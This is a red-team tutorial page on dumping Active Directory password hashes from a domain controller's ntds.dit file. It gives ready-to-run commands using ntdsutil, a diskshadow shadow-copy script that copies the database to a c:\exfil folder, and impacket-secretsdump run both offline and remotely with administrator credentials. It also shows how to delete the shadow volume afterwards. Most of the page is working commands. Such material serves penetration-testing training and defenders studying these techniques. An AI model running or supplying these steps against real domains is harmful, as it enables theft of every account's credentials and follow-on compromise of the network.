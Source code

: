 ```yaml
---
layout: post
title: "ntds.dit enumeration"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /credential-access-and-credential-dumping/
---
```


---
description: Dumping NTDS.dit with Active Directory users hashes
---

# Dumping Domain Controller Hashes Locally and Remotely

## No Credentials - ntdsutil

If you have no credentials, but you have access to the DC, it's possible to dump the ntds.dit using a lolbin ntdsutil.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endtab %}
{% endtabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes offline with impacket:

{% tabs %}
{% tab title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endtab %}
{% endtabs %}

![](<../../.gitbook/assets/ntds-hashdump (1).png>)

## No Credentials - diskshadow

On Windows Server 2008+, we can use diskshadow to grab the ntdis.dit.

Create a shadowdisk.exe script instructing to create a new shadow disk copy of the disk C (where ntds.dit is located in our case) and expose it as drive Z:\\

{% code title="shadow.txt" %}
```erlang
set context persistent nowriters
set metadata c:\exfil\metadata.cab
add volume c: alias trophy
create
expose %someAlias% z:
```
{% endcode %}

...and now execute the following:

```erlang
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```

Below shows the ntds.dit got etracted and placed into our c:\exfil folder:

![](<../../.gitbook/assets/image (406).png>)

Inside interactive diskshadow utility, clean up the shadow volume:

```
diskshadow.exe
    > delete shadows volume trophy
    > reset
```

## With Credentials

If you have credentials for an account that can log on to the DC, it's possible to dump hashes from NTDS.dit remotely via RPC protocol with impacket:

```
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

![](<../../.gitbook/assets/image (223).png>)

## References

{% embed url="https://adsecurity.org/?p=2362" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM)/" %}

{% embed url="https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/" %}
@spotheplanet
